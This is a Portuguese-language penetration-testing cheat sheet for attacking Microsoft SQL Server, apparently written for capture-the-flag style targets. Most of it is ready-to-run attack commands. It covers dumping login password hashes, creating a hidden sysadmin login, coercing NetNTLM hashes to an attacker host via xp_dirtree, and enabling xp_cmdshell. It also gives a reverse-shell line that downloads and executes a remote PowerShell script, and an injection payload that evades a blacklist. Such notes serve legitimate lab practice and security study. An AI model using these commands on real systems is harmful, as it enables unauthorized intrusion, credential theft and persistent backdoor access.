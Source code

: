 Mssql
========================

## Acessando com credenciais

    impacket-mssqlclient 'PublicUser:GuestUserCantWrite1@escape.htb'


## Enumeracao remota

    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <hostname>
    
    
## Enumeracao local

```
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM volume.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'
```

Database names:

    SELECT name FROM master.dbo.sysdatabases;

Table names:

    SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;

Use database

    USE master

Cria usuario com privilegios sysadmin

    CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
    EXEC sp_addsrvrolemember 'hacker', 'sysadmin'

    select name, create_date, modify_date, type_desc as type, authentication_type_desc as authentication_type, sid from sys.database_principals where type not in ('A', 'R') order by name;

List user:

    select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

## Obter hashes netntlm

```
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

## Execucao de comando

XP_CMDSHELL

    SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

 Username + Password + CMD command

    crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"

Username + Hash + PS command

    crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'


Habilita opcoes avancadas, vistoq ue e necessario para xp_cmdshell

    sp_configure 'show advanced options', '1'
    RECONFIGURE

Habilita o xp_cmdshell

    sp_configure 'xp_cmdshell', '1'
    RECONFIGURE

Tudo em uma linha:

    sp_configure 'show advanced options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', '1'; RECONFIGURE;

Checa por qual usuario estamos logados

    EXEC master..xp_cmdshell 'whoami'

Obtem shell reversa

    EXEC xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell2.ps1')"

Bypass blackisted "EXEC xp_cmdshell"

    '; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
    
## Impersonation

Checa os usuarios que podemos fazer o impersonation

    SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
    

